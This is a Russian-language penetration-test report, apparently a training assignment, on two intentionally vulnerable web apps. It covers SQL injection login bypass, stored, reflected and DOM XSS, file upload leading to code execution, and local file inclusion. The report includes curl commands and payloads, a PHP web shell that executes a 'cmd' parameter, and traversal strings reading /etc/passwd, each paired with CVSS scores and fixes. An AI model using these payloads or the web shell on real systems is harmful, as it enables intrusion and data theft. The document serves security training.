# NetologyVulnApp (8050)
## Эксплуатация SQL Injection (CWE-89)

### Используемые инструменты

- Браузер
- Инструменты разработчика браузера
- curl
### Описание уязвимости

В ходе тестирования веб-приложения на порту 8050 была обнаружена уязвимость SQL Injection на странице аутентификации `/users/login.php`. Уязвимость позволяет злоумышленнику манипулировать SQL-запросами к базе данных путем внедрения специально сформированных данных в параметры `username` и `password`.

### Методы тестирования

#### Автоматизированное тестирование

Инструмент OWASP ZAP не обнаружил данную уязвимость автоматически. Инструмент Nikto также не выявил SQL-инъекцию на данной странице. Инструмент WhatWeb определил технологический стек: PHP версии 5.5.9 и Apache версии 2.4.7.

#### Ручное тестирование

При первичном обнаружении отправка одинарной кавычки в параметр `username` вызвала развернутую SQL-ошибку, которая подтвердила прямую конкатенацию пользовательского ввода в SQL-запрос и раскрыла структуру запроса, включая наличие поля `salt`.



При эксплуатации через браузер в форму входа был введен пэйлоад `admin' OR '1'='1' --`. В результате произошло перенаправление на страницу `/users/home.php`, и пользователь получил доступ к приложению как `Sample User`.






При эксплуатации через curl был отправлен POST-запрос с аналогичным пэйлоадом. Ответ сервера подтвердил успешную эксплуатацию: статус `303 See Other`, перенаправление на `/users/home.php` и установка сессионной cookie `PHPSESSID`.



### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Получение синтаксической ошибки SQL при вводе кавычки подтвердило наличие инъекции. Обход аутентификации с использованием всегда истинного условия подтвердил возможность эксплуатации. После эксплуатации стал доступен функционал, требующий аутентификации, что окончательно подтвердило успешность атаки.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации не требуется аутентификация и не требуется взаимодействие с пользователем. Атака влияет только на уязвимый компонент без распространения на другие системы.

В случае успешной эксплуатации возможен полный доступ к данным базы данных, возможность изменения данных и возможность нарушения доступности.

**Итоговая оценка: 9.8 (CRITICAL)**

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения рекомендуется отключить страницу входа через конфигурацию веб-сервера или добавить экранирование кавычек с использованием функции `mysqli_real_escape_string`. Также необходимо отключить вывод ошибок SQL в production-среде через настройки PHP.

#### Полное исправление

В качестве постоянного решения необходимо использовать параметризованные запросы через PDO или MySQLi. Следует внедрить современное хэширование паролей с использованием функций `password_hash` и `password_verify`. Необходимо добавить валидацию входных данных с проверкой допустимых символов.

Требуется создать пользователя базы данных с минимальными правами, ограниченными только необходимыми операциями. Настоятельно рекомендуется обновить PHP с версии 5.5.9, которая достигла конца жизни, до актуальной версии 7.4 или 8.x.

Рекомендуется провести аудит всего кода приложения на предмет других SQL-инъекций, внедрить Web Application Firewall как дополнительный уровень защиты, регулярно обновлять все компоненты приложения и проводить автоматизированное сканирование после каждого изменения кода.

### Заключение

Уязвимость SQL Injection на странице `/users/login.php` порта 8050 подтверждена, успешно эксплуатирована и классифицирована как критическая с оценкой 9.8 по CVSS v3.1. Рекомендуется немедленное применение быстрых мер с последующим внедрением параметризованных запросов и обновлением стека технологий.

## Эксплуатация Stored XSS на странице гостевой книги (CWE-79)

### Описание уязвимости

В ходе тестирования веб-приложения на порту 8050 была обнаружена уязвимость межсайтового скриптинга на странице гостевой книги `/guestbook.php`. Уязвимость позволяет злоумышленнику внедрять и выполнять произвольный JavaScript-код в браузерах других пользователей, посещающих данную страницу.

### Методы тестирования

#### Автоматизированное тестирование

Инструмент OWASP ZAP в отчете указал на потенциальный XSS в разделе "Атрибут элемента HTML, управляемый пользователем", но не подтвердил уязвимость автоматически. Инструменты Nikto и WhatWeb не выявили XSS на данной странице.

#### Ручное тестирование

При первичном обнаружении в форму гостевой книги был введен пэйлоад `<script>alert('XSS!')</script>` в поле комментария. После отправки формы и перезагрузки страницы в браузере появилось всплывающее окно с текстом "XSS!", что подтвердило выполнение JavaScript-кода.



При повторном тестировании с использованием curl был отправлен POST-запрос с тем же пэйлоадом. При последующем GET-запросе к странице гостевой книги скрипт выполнился снова, подтверждая хранимый характер уязвимости.

Появляются множественные всплывающие окна (alert) — уязвимость полностью подтверждена

### Детали уязвимости

Уязвимый URL: `http://92.51.39.106:8050/guestbook.php`

Уязвимый параметр: `comment` (поле комментария)

Тип XSS: **Stored XSS (Persistent)** - код сохраняется на сервере и выполняется при каждом посещении страницы всеми пользователями.

### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Визуальное подтверждение получено через появление всплывающего окна в браузере. Постоянство уязвимости подтверждено тем, что после перезагрузки страницы код выполняется снова. Независимость от сессии подтверждена тем, что код выполняется для любого пользователя, открывающего страницу. Отсутствие экранирования подтверждено анализом исходного кода страницы, где введенный тег `<script>` отображается как есть, без преобразования в HTML-сущности.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации не требуется аутентификация, но требуется взаимодействие с пользователем — он должен открыть страницу гостевой книги. Атака влияет на браузер пользователя, а не на само приложение, поэтому Scope изменяется.

В случае успешной эксплуатации возможна кража cookie и данных сессии, а также изменение отображаемого содержимого. Доступность приложения не нарушается.

**Итоговая оценка: 6.1 (MEDIUM)**

*Примечание: Оценка может быть повышена до HIGH при демонстрации возможности кражи сессионных cookie или выполнения действий от имени пользователя.*

### Потенциальное воздействие

Уязвимость позволяет злоумышленнику осуществлять кражу сессионных cookie для получения доступа к аккаунтам пользователей. Возможно проведение фишинговых атак путем подмены содержимого страницы для сбора логинов и паролей. Злоумышленник может изменить внешний вид страницы для всех посетителей или перенаправлять их на вредоносные сайты. Также возможно выполнение действий от имени пользователя, если приложение не защищено от CSRF-атак.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения рекомендуется отключить гостевую книгу через конфигурацию веб-сервера. Необходимо добавить экранирование HTML-спецсимволов с использованием функции `htmlspecialchars` в PHP для всех выводимых пользовательских данных. Следует внедрить валидацию входных данных, разрешая только буквы, цифры и базовые знаки препинания.

#### Полное исправление

В качестве постоянного решения необходимо экранировать весь вывод, содержащий пользовательские данные, с использованием `htmlspecialchars` с флагом `ENT_QUOTES` и указанием кодировки UTF-8. Следует внедрить заголовок Content Security Policy для ограничения выполнения скриптов только с доверенных источников. Необходимо применять флаг HttpOnly для сессионных cookie, чтобы защитить их от кражи через JavaScript. Рекомендуется использовать подготовленные шаблоны с автоматическим экранированием, такие как Twig или Blade.

#### Дополнительные рекомендации

Рекомендуется провести аудит всех мест в приложении, где выводятся пользовательские данные, на предмет подобных уязвимостей. Следует внедрить процесс безопасной разработки с обязательным тестированием на XSS. Необходимо регулярно обновлять все компоненты приложения и проводить повторное тестирование после внесения исправлений.

### Заключение

Уязвимость Stored XSS на странице `/guestbook.php` порта 8050 подтверждена, успешно эксплуатирована и классифицирована как уязвимость среднего уровня риска с возможностью повышения до высокого при демонстрации кражи cookie. Рекомендуется немедленное применение быстрых мер с последующим внедрением системного подхода к экранированию вывода и политик безопасности контента.

## Эксплуатация Stored XSS в комментариях к изображениям (CVE-79)

### Цель

Подтвердить наличие уязвимости хранимого межсайтового скриптинга в форме комментариев к изображениям на странице просмотра фото.

### Процесс эксплуатации

Для доступа к функционалу комментариев требовалась предварительная аутентификация. Используя ранее полученную сессионную cookie от успешной SQL-инъекции, был выполнен вход в приложение под учетной записью пользователя.

На странице просмотра изображения по адресу `/pictures/view.php?picid=15` была обнаружена форма добавления комментариев. В поле ввода комментария был введен пэйлоад:

```html
<script>alert('Stored XSS')</script>
```

После отправки формы комментарий был сохранен на сервере. При повторной загрузке страницы просмотра данного изображения в браузере появилось всплывающее окно с текстом "Stored XSS", что подтвердило выполнение внедренного JavaScript-кода.



 

### Детали уязвимости

Уязвимость локализована на странице `/pictures/view.php` с параметром `picid=15`. Уязвимым функционалом является форма добавления комментариев к изображению, а именно поле ввода текста комментария. Тип уязвимости — Stored XSS (хранимая), поскольку внедренный код сохраняется на сервере и выполняется при каждом просмотре страницы всеми пользователями. 

### Потенциальное воздействие

Уязвимость позволяет злоумышленнику выполнять произвольный JavaScript-код в браузерах всех пользователей, просматривающих данное изображение. Это может привести к краже сессионных cookie, получению несанкционированного доступа к аккаунтам пользователей, выполнению действий от имени жертвы и распространению вредоносного кода.

### Заключение

Уязвимость Stored XSS в комментариях к изображениям полностью подтверждена и успешно эксплуатирована. Это третья XSS-уязвимость и вторая хранимая XSS на порту 8050, что свидетельствует о системных проблемах с экранированием пользовательского ввода во всем приложении. Уязвимость классифицируется как CWE-79 со средним уровнем риска.

## Эксплуатация Reflected XSS в форме поиска (CWE-79)

### Цель
Подтвердить наличие уязвимости отраженного межсайтового скриптинга в форме поиска на странице `/pictures/search.php`.

### Подтверждение уязвимости

Для подтверждения эксплуатации был использован пэйлоад с JavaScript-кодом:
```html
<a href="#" onclick="alert('XSS Reflected')">Mom's hacker</a>
```

После отправки запроса и загрузки страницы:
1. В заголовке отобразилась активная ссылка с текстом "Mom's hacker"
2. При клике на ссылку появилось всплывающее окно с текстом "XSS Reflected"





### Детали уязвимости

- **Уязвимый URL:** `/pictures/search.php`
- **Уязвимый параметр:** `query` (метод GET)
- **Тип XSS:** Reflected (отраженный)
- **Место отражения:** Заголовок `<h2>` на странице результатов
- **Условие срабатывания:** Требуется клик пользователя по внедренной ссылке

### Заключение

Уязвимость Reflected XSS на странице `/pictures/search.php` подтверждена и успешно эксплуатирована. Введенный JavaScript-код выполняется в браузере пользователя при клике на сгенерированную ссылку. Уязвимость классифицируется как CWE-79 со средним уровнем риска.

## Эксплуатация File Upload и получению Remote Code Execution (CWE-434)

### Цель
Подтвердить возможность загрузки веб-шелла на сервер через функционал загрузки изображений и получения удаленного выполнения команд.

### Процесс эксплуатации

Для доступа к функционалу загрузки требовалась предварительная аутентификация. Используя ранее полученную сессионную cookie от успешной SQL-инъекции, был выполнен вход в приложение под учетной записью пользователя.

На странице загрузки изображений по адресу `/pictures/upload.php` была обнаружена форма, принимающая файлы. Был подготовлен файл `dml_shell.php` со следующим содержимым:

```php
<?php
if (isset($_REQUEST['cmd'])) {
    system($_REQUEST['cmd']);
}
?>
```

Файл был успешно загружен через форму с указанием тега `222`. После загрузки сервер создал директорию `/upload/222/` и поместил в нее загруженный файл. Листинг директории подтвердил наличие файла `dml_shell.php`.

Доступ к веб-шеллу был получен по адресу:
```
http://92.51.39.106:8050/upload/222/dml_shell.php
```

Для проверки работоспособности был отправлен запрос на выполнение команды чтения системного файла:

```
http://92.51.39.106:8050/upload/222/dml_shell.php?cmd=cat%20/etc/passwd
```

В ответе сервера успешно отобразилось содержимое файла `/etc/passwd`, содержащее список всех пользователей системы, включая учетную запись `www-data` под которой работает веб-сервер.







### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Загрузка файла с расширением `.php` оказалась возможной без какой-либо проверки типа содержимого. Файл стал доступен по прямому URL в директории загрузки. Переданная через параметр `cmd` команда выполнилась на сервере, и ее результат вернулся в ответе. Прочитанный файл `/etc/passwd` содержит реальные данные системы, что исключает возможность ложного срабатывания.

Уязвимость признана действительной.
### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации требуется аутентификация в приложении, что повышает сложность, но не является существенным препятствием. Атака не требует взаимодействия с пользователем. В случае успешной эксплуатации возможен полный доступ к данным на сервере, возможность изменения файлов и выполнения произвольного кода, а также нарушение доступности системы.

Итоговая оценка: 8.8 (HIGH)
### Потенциальное воздействие

Уязвимость позволяет злоумышленнику получить полный контроль над сервером. Возможно чтение любых файлов, доступных пользователю `www-data`, включая конфигурационные файлы с паролями баз данных. Возможно изменение и удаление файлов приложения. Возможно выполнение системных команд для установки постоянного доступа, создания новых учетных записей или использования сервера в качестве плацдарма для атак на внутреннюю сеть.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения необходимо запретить загрузку PHP-файлов через расширение `.htaccess` в директории загрузки. Также следует немедленно удалить загруженный шелл-файл `dml_shell.php` из директории `/upload/222/`.

#### Полное исправление

В качестве постоянного решения необходимо реализовать строгую валидацию загружаемых файлов. Проверка должна включать не только расширение, но и MIME-тип содержимого. Следует переименовывать загруженные файлы в случайные имена и хранить их вне веб-корня. Необходимо настроить веб-сервер на запрет выполнения PHP-кода в директории загрузок. Требуется внедрить антивирусную проверку загружаемых файлов и ограничить максимальный размер загружаемых файлов.

#### Дополнительные рекомендации

Рекомендуется провести аудит всего функционала загрузки файлов в приложении, внедрить политику безопасной разработки с обязательным тестированием на возможность загрузки исполняемых файлов, регулярно обновлять компоненты приложения и проводить повторное тестирование после внесения исправлений.

### Заключение

Уязвимость неограниченной загрузки файлов подтверждена и успешно эксплуатирована. Загруженный веб-шелл позволил получить удаленное выполнение команд на сервере и прочитать системный файл `/etc/passwd`. Уязвимость классифицируется как высокий уровень риска. Рекомендуется немедленное применение быстрых мер с последующим внедрением системы проверки загружаемых файлов.

## Эксплуатация Local File Inclusion (CWE-98 потенциальная)

### Цель
Подтвердить возможность эксплуатации уязвимости локального включения файлов на странице `/admin/index.php`.

### Процесс эксплуатации

На странице `/admin/index.php` был обнаружен параметр `page`, который влияет на файл, включаемый через функцию `require_once`. При передаче параметра `page=test` скрипт пытался включить файл `test.php`, что подтвердило наличие динамического включения.



Null-byte инъекция (`%00`) позволяет отрезать добавляемое расширение `.php`. Это подтверждается изменением ошибки: без null-byte скрипт пытается включить `file.php` , с null-byte - `file` .

Были предприняты попытки чтения системных файлов с использованием обхода директорий:

```
page=../../../../etc/passwd%00
page=../../../../etc/hosts%00
page=../../../../proc/self/environ%00
```

Во всех случаях сервер возвращал ошибку `require_once(): Failed opening required`, подтверждающую попытку включения файла. Однако содержимое файлов не отображалось, так как функция `require_once` выполняет код, а не выводит его содержимое.



Попытки использования PHP-фильтров для чтения файлов и log poisoning для получения удаленного выполнения команд не увенчались успехом.

### Валидация уязвимости

Уязвимость подтверждена следующими фактами:
- Параметр `page` изменяет имя включаемого файла
- Null-byte инъекция работает и отрезает расширение `.php`
- Directory traversal возможен (попытки выхода за пределы веб-директории)

Прямое чтение файлов не достигнуто из-за особенностей функции `require_once`. Уязвимость признана действительной, но с ограниченной эксплуатацией.

### Оценка критичности

Уязвимость позволяет управлять включаемым файлом, но в текущей конфигурации не дает возможности читать файлы или выполнять код. Атака возможна удаленно, без аутентификации.

Уровень риска: СРЕДНИЙ.

### Потенциальное воздействие

При изменении конфигурации сервера уязвимость может позволить читать системные файлы, получать исходные коды приложения и в комбинации с другими уязвимостями приводить к выполнению кода.

### Рекомендации по исправлению

Необходимо исключить использование пользовательского ввода в функциях включения файлов. Вместо динамических путей следует применять белый список разрешенных файлов. Рекомендуется удалить параметр `page` или ограничить к нему доступ.

### Заключение

Уязвимость локального включения файлов на странице `/admin/index.php` подтверждена. Параметр `page` позволяет управлять включаемым файлом, null-byte инъекция работает. В текущей конфигурации эксплуатация ограничена, но уязвимость требует исправления.

---
# Beemer (7788)

## Эксплуатация SQL Injection (CWE-89)

### Описание уязвимости

В ходе тестирования веб-приложения Beemer на порту 7788 была обнаружена уязвимость SQL Injection на странице аутентификации `/login.html`. Уязвимость позволяет злоумышленнику манипулировать SQL-запросами к базе данных путем внедрения специально сформированных данных в параметры `username` и `password`, передаваемые методом POST.

### Процесс эксплуатации

#### Автоматизированное обнаружение

Инструмент OWASP ZAP в ходе активного сканирования зафиксировал, что отправка одинарной кавычки в параметры `username` и `password` вызывает HTTP-статус 500 Internal Server Error, что является классическим признаком SQL-инъекции.

#### Ручное подтверждение уязвимости

Для подтверждения был отправлен POST-запрос с одинарной кавычкой в параметре `username`:

```bash
curl -X POST http://92.51.39.106:7788/login.html \
  -d "username=admin'&password=test"
```

Сервер вернул HTTP 500 с подробным traceback, раскрывающим технологический стек и структуру запроса:



Из ошибки стало известно, что:
- Сервер работает на Python 2.7 с фреймворком Tornado
- Используется база данных SQLite
- SQL-запрос формируется путем прямой конкатенации строк
- Уязвимость относится к типу error-based SQL injection

#### Эксплуатация для обхода аутентификации

Для обхода аутентификации был использован классический пэйлоад:

```bash
curl -X POST http://92.51.39.106:7788/login.html \
  -d "username=admin' OR '1'='1' -- -&password=anything"
```

В ответ сервер вернул HTTP 200 OK, а в теле страницы появилось сообщение:



Это подтвердило успешный вход в приложение под учетной записью администратора.
### Валидация уязвимости

Уязвимость была подтверждена следующими методами. Автоматизированное сканирование OWASP ZAP выявило аномальное поведение при отправке кавычки. Ручное тестирование с использованием curl подтвердило возникновение SQL-ошибки. Эксплуатация с использованием всегда истинного условия позволила успешно обойти аутентификацию и получить доступ к приложению. Полученное сообщение "Login Success, Hello admin" является неопровержимым доказательством успешной эксплуатации.

Уязвимость признана действительной.

### Оценка критичности по CVSS v3.1

Атака возможна удаленно через сеть и не требует специальных условий. Для эксплуатации не требуется аутентификация и не требуется взаимодействие с пользователем. Атака влияет только на уязвимый компонент без распространения на другие системы.

В случае успешной эксплуатации возможен полный доступ к данным базы данных, включая учетные данные пользователей, возможность изменения данных и выполнения произвольных SQL-запросов.

**Итоговая оценка: 9.8 (CRITICAL)**

### Потенциальное воздействие

Уязвимость позволяет злоумышленнику получить несанкционированный доступ к приложению под учетной записью любого пользователя, включая администратора. Возможно извлечение всех данных из базы данных, включая хэши паролей, персональную информацию и другие конфиденциальные данные. Также возможно выполнение произвольных SQL-запросов для модификации или удаления данных, что может привести к полной компрометации приложения.

### Рекомендации по исправлению

#### Быстрые меры

В качестве временного решения необходимо отключить отображение детальных ошибок SQL в ответах сервера, чтобы затруднить анализ структуры запроса. Также следует временно ограничить доступ к странице входа через конфигурацию веб-сервера до момента внесения исправлений.

#### Полное исправление

В качестве постоянного решения необходимо полностью исключить конкатенацию пользовательского ввода в SQL-запросах. Для работы с SQLite следует использовать параметризованные запросы через встроенную поддержку параметров в библиотеке sqlite3.

Также рекомендуется внедрить хэширование паролей с использованием надежных алгоритмов, валидацию входных данных на стороне сервера и применение принципа наименьших привилегий для учетной записи, под которой приложение подключается к базе данных.

#### Дополнительные рекомендации

Рекомендуется провести аудит всего кода приложения на предмет других SQL-инъекций, так как использование конкатенации строк в одном месте может указывать на системную проблему. Следует внедрить процесс безопасной разработки с обязательным код-ревью и регулярное автоматизированное сканирование после каждого изменения кода.

### Заключение

Уязвимость SQL Injection на странице `/login.html` порта 7788 подтверждена, успешно эксплуатирована и классифицирована как критическая с оценкой 9.8 по CVSS v3.1. В ходе эксплуатации получен доступ к приложению под учетной записью администратора. Рекомендуется немедленное применение быстрых мер с последующим внедрением параметризованных запросов.

## Эксплуатация DOM-based XSS (CWE-79)
### Цель - Порт 7788, страница `/search`

### Описание уязвимости

В ходе тестирования веб-приложения Beemer на порту 7788 была обнаружена уязвимость DOM-based XSS на странице поиска `/search`. Уязвимость позволяет злоумышленнику внедрять и выполнять произвольный JavaScript-код в браузере жертвы путем передачи специально сформированного параметра `q` в URL.

### Процесс эксплуатации

#### Автоматизированное обнаружение

Инструмент OWASP ZAP в ходе активного сканирования сгенерировал ссылку с тестовым пэйлоадом для проверки DOM-based XSS.

#### Ручное подтверждение уязвимости

Для подтверждения был осуществлен переход по сгенерированной ссылке:
```
http://92.51.39.106:7788/search?q=<script>alert(111)</script>
```
#### Результат

При загрузке страницы в браузере появилось всплывающее окно, что подтверждает выполнение внедренного JavaScript-кода.

